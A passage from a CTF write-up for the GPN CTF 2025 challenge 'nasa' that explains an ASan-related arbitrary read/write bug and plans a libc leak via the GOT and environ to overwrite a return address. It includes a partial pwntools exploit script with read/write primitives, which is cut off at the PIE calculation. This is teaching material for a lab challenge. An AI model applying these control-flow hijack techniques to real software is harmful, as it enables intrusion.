 ![Untitled](/CTF/gpnctf25-7.png)

To summarize, we have two crucial leaks: the address of the `win` function and a stack address (in this case, from the heap-allocated stack). Additionally, we have **arbitrary read and write** capabilities, as long as the target addresses aren’t poisoned. This is because the **ASan** mask only affects **heap-allocated stack** frames, which are the ones susceptible to stack use-after-return detection.

Before diving into the exploitation phase, I usually like to plan my approach.

The presence of a `win` function leak suggests that we have control over **PIE**, which we can leverage to leak the address of `puts` from the **GOT**. This leak will allow us to compute the base address of libc.

From here, it's a win-win case. With the libc base address, we can calculate the address of the `environ` pointer, which points to a stack address. This allows us to derive the return address of a function on the stack, and that’s what we’re going to overwrite in order to **hijack the control flow**.

```python
from pwn import *

exe = ELF("./nasa")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

context(arch='amd64', os='linux', log_level='debug', terminal=['tmux', 'splitw', '-h'])

def start(argv=[], *a, **kw):
    if args.GDB: # GDB
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return remote("lakeforge-of-mind-blowing-hope.gpn23.ctf.kitctf.de", "443", ssl=True)
    
    
gdbscript = '''
disp/10i $rip
tb main
continue
'''.format(**locals())

# Write primitive
def write(addr, data):
    io.sendlineafter(b'[1] Write [2] Read [3] Exit\n', b'1')
    io.recvuntil(b'8-byte adress and 8-byte data to write please (hex)\n')
    io.sendline(addr)
    io.sendline(data)

# Read primitive
def read(addr):
    io.sendlineafter(b'[1] Write [2] Read [3] Exit\n', b'2')
    io.recvuntil(b'8-byte adress to read please (hex)\n')
    io.sendline(addr)
    return io.recvline().strip()

# Exit primitive
def exit():
    io.sendlineafter(b'[1] Write [2] Read [3] Exit\n', b'3')

io = start()

# Leak addresses
asan_heap = int(io.recvline().strip(), 16)
win_addr = int(io.recvline().strip(), 16)

# Compute PIE
```